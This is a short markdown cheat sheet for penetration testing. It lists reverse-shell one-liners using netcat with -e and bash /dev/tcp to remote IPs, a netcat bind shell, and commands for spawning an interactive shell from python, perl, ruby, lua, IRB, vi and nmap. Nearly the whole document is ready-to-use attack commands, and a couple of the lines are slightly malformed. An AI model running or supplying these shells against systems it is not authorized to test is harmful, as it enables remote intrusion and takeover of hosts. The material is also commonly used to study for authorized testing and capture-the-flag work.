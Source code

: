 # Shells

## Reverse shell

| tool           | local                 |      | remote                         |
|----------------|-----------------------|------|--------------------------------|
| netcat         | nc -lvp 4444          |  <-  | nc 192.168.1.1 4444 -e /bin/sh |
| netcat <br> sh | nc -lvp 4444          |  <-  | bash -i >& /dev/tcp/10.0.0.1/4444 0>&1 |

## Bind shell

| tool   | local                 |      | remote                         |
|--------|-----------------------|------|--------------------------------|
| netcat | nc 192.168.1.2 4444   |  ->  | nc -lvp 4444 -e /bin/sh        |

## Spawning a TTY Shell

```
python -c 'import pty; pty.spawn("/bin/sh")'
```

```
echo os.system('/bin/bash')
```

```
/bin/sh -i
```

```
perl —e 'exec "/bin/sh";'
```

```
perl: exec "/bin/sh";
```

```
ruby: exec "/bin/sh"
```

```
lua: os.execute('/bin/sh')
```
```
(From within IRB)
exec "/bin/sh"
```

```
(From within vi)
:!bash
```

```
(From within vi)
:set shell=/bin/bash:shell
```

```
(From within nmap)
!sh
```
